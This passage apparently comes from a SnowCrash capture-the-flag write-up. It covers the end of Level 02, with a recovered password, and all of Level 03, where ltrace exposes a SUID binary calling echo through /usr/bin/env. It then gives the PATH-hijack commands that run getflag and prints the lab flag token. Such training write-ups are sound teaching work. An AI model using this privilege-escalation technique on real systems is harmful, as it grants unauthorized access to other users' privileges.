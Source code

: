 ```bash
000000CA  4c                                                L
000000CB  30                                                0
000000CC  4c                                                L
000000CD  0d                                                .
...
```

After this, we can see that the password contains DEL key press (7f). When we remove all the deleted letters, we get: <mark>ft_waNDReL0L</mark>

## Level 03

When we are logged as level03, we can see level03 file in our home directory.

```bash
level03@SnowCrash:~$ ls -l
total 12
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
```

After looking in the right assigned in this file, we see r-s, the s permission means SUID, the file is executed with the user owner's permission, and the owner is flag03.

When we run it, we have the following message
```bash
level03@SnowCrash:~$ ./level03
Exploit me
```

At this level, we will use ltrace this tool records and print the dynamic library calls.

```bash
level03@SnowCrash:~$ ltrace ./level03
__libc_start_main(0x80484a4, 1, 0xbffff7f4, 0x8048510, 0x8048580 <unfinished ...>
getegid()                                                                      = 2003
geteuid()                                                                      = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                            = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                            = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                         = 0
+++ exited (status 0) +++
```

As we can see, there is a system call with /usr/bin/env of the echo file. We only have to modify our PATH env to run an echo program. We will run /bin/getflag to get the flag of the next level.

So we will execute the following commands:
```bash
level03@SnowCrash:~$ echo "/bin/getflag" > /tmp/echo
level03@SnowCrash:~$ chmod 755 /tmp/echo
level03@SnowCrash:~$ export PATH=/tmp/
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```
